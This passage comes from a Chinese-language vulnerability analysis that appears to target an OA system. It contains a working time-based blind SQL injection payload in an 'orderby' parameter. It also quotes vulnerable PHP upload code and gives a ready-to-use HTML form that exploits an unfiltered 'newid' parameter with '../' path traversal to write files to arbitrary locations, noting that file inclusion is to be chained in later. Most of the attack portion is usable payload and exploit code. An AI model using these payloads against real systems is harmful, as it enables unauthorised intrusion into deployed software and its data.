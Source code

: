 orderby=(SELECT count(*) FROM information_schema.columns A, information_schema.columns B where 1=1 and (LENGTH(database())=5))

### <a class="reference-link" name="4%EF%BC%8C%E5%B0%86%E9%9D%9Ephp%E6%96%87%E4%BB%B6%E4%BC%A0%E5%88%B0%E4%BB%BB%E6%84%8F%E4%BD%8D%E7%BD%AE"></a>4，将非php文件传到任意位置

漏洞位置：general/reportshop/utils/upload.php #170

```
else if (!empty($_FILES)) `{`
            $s_n = $_FILES[$fileid]["name"];
            if (!check_filename($s_n) || !check_filetype($s_n)) `{`
                if (isset($json)) `{`
                    echo "`{`";
                    echo "new_name:'',\n";
                    echo "error: 'true',\n";
                    echo "msg: '文件不符合要求'\n";
                    echo "`}`";
                `}`
                else `{`
                    echo "文件不符合要求！";
                `}`

                exit();
            `}`

            if (($s_n[0] != "`{`") &amp;&amp; isset($newid)) `{`
                $s_n = "`{`" . $newid . "`}`_" . $s_n;
            `}`

            if (td_move_uploaded_file($_FILES[$fileid]["tmp_name"], $uploaddir . $s_n)) `{`
            `}`
            else `{`
                $b_res = "false";
            `}`
        `}`
    `}`

    if (isset($_FILES[$fileid])) `{`
        td_unlink($_FILES[$fileid]["tmp_name"]);
    `}`
`}`
```

将newid不经过滤直接拼接到了上传路径中，所以我们可以通过newid参数控制上传的位置

上传文件的后缀限制了不能传输php，尝试了其他php5，php.，php::$DATA都不行，类似的限制比较多

可以先不管，后续通过文件包含来解决

构造一个上传页面：

```
&lt;html&gt;
&lt;body&gt;
&lt;form action="http://192.168.0.116/general/reportshop/utils/upload.php" method="post"  enctype="multipart/form-data"&gt;
&lt;input  type="text"name='action' value = 'upload'  &gt;&lt;/input&gt;
&lt;!-- &lt;input  type="text"name='rid' value = '`{`123456789123456789123456789123456789`}`'&gt;&lt;/input&gt; --&gt;
&lt;input  type="text"name='newid' value = '../../../../../'  &gt;&lt;/input&gt;
&lt;input  type="text"name='filetype' value = ''  &gt;&lt;/input&gt;
&lt;input type="file" name="FILE1"&gt;&lt;/input&gt;
&lt;input type="submit" &gt;&lt;/input&gt;
&lt;/body&gt;
&lt;/html&gt;
```